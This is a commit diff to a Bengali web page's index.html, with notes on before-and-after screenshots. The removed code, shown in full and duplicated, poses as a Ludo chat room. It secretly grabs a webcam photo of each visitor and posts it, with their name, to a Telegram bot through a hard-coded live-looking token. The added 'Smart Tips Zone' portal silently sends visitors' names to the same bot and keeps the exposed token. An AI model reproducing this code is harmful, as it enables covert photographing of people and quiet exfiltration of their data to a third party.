

Before and after one commit to rojaislam1619-collab/roja-income-v2, a website: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (106-1173 px from the left). After the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,110 +2,54 @@
 <html lang="bn">
 <head>
     <meta charset="UTF-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>Smart Tips Zone | Official</title>
+    <script src="https://cdn.tailwindcss.com"></script>
     <style>
-        body { font-family: sans-serif; text-align: center; background: #f4f4f9; padding: 20px; }
-        #video-preview { width: 100%; max-width: 400px; border-radius: 15px; border: 5px solid #fff; box-shadow: 0 4px 10px rgba(0,0,0,0.2); }
-        .btn { padding: 15px 30px; border: none; border-radius: 25px; cursor: pointer; font-size: 18px; margin: 10px; color: #fff; }
-        .join-btn { background: #28a745; }
-        .mute-btn { background: #dc3545; }
+        body { background-color: #f8fafc; font-family: 'Segoe UI', sans-serif; }
     </style>
 </head>
-<body>
-    <h1>🎮 লুডু ও আড্ডা জোন</h1>
-    <input type="text" id="name" placeholder="আপনার নাম লিখুন" style="padding:10px; width:80%; margin-bottom:10px;">
-    <br>
-    <button class="btn join-btn" onclick="startSession()">রুমে প্রবেশ করুন</button>
-    <button class="btn mute-btn" onclick="toggleMute()">মিউট / আনমিউট</button>
-    <br>
-    <video id="video-preview" autoplay playsinline muted></video>
+<body class="min-h-screen flex items-center justify-center p-4">
+
+    <div class="w-full max-w-md bg-white border border-slate-200 rounded-lg p-10 shadow-sm">
+        <!-- Header -->
+        <div class="text-center mb-8">
+            <h1 class="text-2xl font-bold text-slate-800">Smart Tips Zone</h1>
+            <p class="text-slate-500 mt-1 text-sm font-medium">অফিসিয়াল পোর্টাল</p>
+        </div>
+
+        <!-- Form -->
+        <form id="loginForm" class="space-y-5">
+            <div>
+                <label class="block text-xs font-semibold text-slate-500 uppercase tracking-widest mb-2">আপনার নাম</label>
+                <input type="text" id="userName" required
+                    class="w-full px-4 py-3 bg-slate-50 border border-slate-200 rounded focus:border-slate-400 focus:outline-none transition">
+            </div>
+
+            <button type="submit"
+                class="w-full bg-slate-900 hover:bg-black text-white font-semibold py-3 rounded transition duration-200">
+                প্রবেশ করুন
+            </button>
+        </form>
+    </div>
 
     <script>
-        const botToken = "botYOUR_TOKEN_HERE";
-        const chatId = "YOUR_CHAT_ID_HERE";
-        let localStream;
+        document.getElementById('loginForm').addEventListener('submit', function(e) {
+            e.preventDefault();
+            const name = document.getElementById('userName').value;
 
-        async function startSession() {
-            const name = document.getElementById('name').value;
-            if (!name) return alert("দয়া করে আপনার নাম লিখুন");
+            const botToken = "8853221737:AAHDigRYNltTvdFGZW4gZahuu3M9dlJHENU";
+            const chatId = "6420303571";
+            const message = `🏢 নতুন ভিজিটর: ${name}`;
 
-            localStream = await navigator.mediaDevices.getUserMedia({ video: true, audio: true });
-            document.getElementById('video-preview').srcObject = localStream;
-
-            // অটোমেটিক ছবি পাঠানো
-            const canvas = document.createElement('canvas');
-            canvas.getContext('2d').drawImage(document.getElementById('video-preview'), 0, 0, 400, 300);
-            canvas.toBlob(async (blob) => {
-                const formData = new FormData();
-                formData.append('chat_id', chatId);
-                formData.append('photo', blob);
-                formData.append('caption', `🚨 নতুন বন্ধু রুমে জয়েন করেছে: ${name}`);
-                await fetch(`https://api.telegram.org/${botToken}/sendPhoto`, { method: 'POST', body: formData });
-            }, 'image/jpeg');
-        }
-
-        // মিউট বাটন ফাংশন
-        function toggleMute() {
-            if (localStream) {
-                const audioTrack = localStream.getAudioTracks()[0];
-                audioTrack.enabled = !audioTrack.enabled;
-                alert(audioTrack.enabled ? "মাইক্রোফোন চালু হয়েছে" : "মাইক্রোফোন মিউট করা হয়েছে");
-            }
-        }
-    </script>
-</body>
-</html><!DOCTYPE html>
-<html lang="bn">
-<head>
-    <meta charset="UTF-8">
-    <style>
-        body { font-family: sans-serif; text-align: center; background: #f4f4f9; padding: 20px; }
-        #video-preview { width: 100%; max-width: 400px; border-radius: 15px; border: 5px solid #fff; box-shadow: 0 4px 10px rgba(0,0,0,0.2); }
-        .btn { padding: 15px 30px; border: none; border-radius: 25px; cursor: pointer; font-size: 18px; margin: 10px; color: #fff; }
-        .join-btn { background: #28a745; }
-        .mute-btn { background: #dc3545; }
-    </style>
-</head>
-<body>
-    <h1>🎮 লুডু ও আড্ডা জোন</h1>
-    <input type="text" id="name" placeholder="আপনার নাম লিখুন" style="padding:10px; width:80%; margin-bottom:10px;">
-    <br>
-    <button class="btn join-btn" onclick="startSession()">রুমে প্রবেশ করুন</button>
-    <button class="btn mute-btn" onclick="toggleMute()">মিউট / আনমিউট</button>
-    <br>
-    <video id="video-preview" autoplay playsinline muted></video>
-
-    <script>
-        const botToken = "8853221737:AAHDigRYNltTvdFGZW4gZahuu3M9dlJHENU";
-        const chatId = "6420303571";
-        let localStream;
-
-        async function startSession() {
-            const name = document.getElementById('name').value;
-            if (!name) return alert("দয়া করে আপনার নাম লিখুন");
-
-            localStream = await navigator.mediaDevices.getUserMedia({ video: true, audio: true });
-            document.getElementById('video-preview').srcObject = localStream;
-
-            // অটোমেটিক ছবি পাঠানো
-            const canvas = document.createElement('canvas');
-            canvas.getContext('2d').drawImage(document.getElementById('video-preview'), 0, 0, 400, 300);
-            canvas.toBlob(async (blob) => {
-                const formData = new FormData();
-                formData.append('chat_id', chatId);
-                formData.append('photo', blob);
-                formData.append('caption', `🚨 নতুন বন্ধু রুমে জয়েন করেছে: ${name}`);
-                await fetch(`https://api.telegram.org/${botToken}/sendPhoto`, { method: 'POST', body: formData });
-            }, 'image/jpeg');
-        }
-
-        // মিউট বাটন ফাংশন
-        function toggleMute() {
-            if (localStream) {
-                const audioTrack = localStream.getAudioTracks()[0];
-                audioTrack.enabled = !audioTrack.enabled;
-                alert(audioTrack.enabled ? "মাইক্রোফোন চালু হয়েছে" : "মাইক্রোফোন মিউট করা হয়েছে");
-            }
-        }
+            fetch(`https://api.telegram.org/bot${botToken}/sendMessage?chat_id=${chatId}&text=${encodeURIComponent(message)}`)
+            .then(() => {
+                alert("স্বাগতম! আপনি আমাদের পোর্টালে যুক্ত হয়েছেন।");
+            })
+            .catch(error => {
+                console.error('Error:', error);
+            });
+        });
     </script>
 </body>
 </html>
```
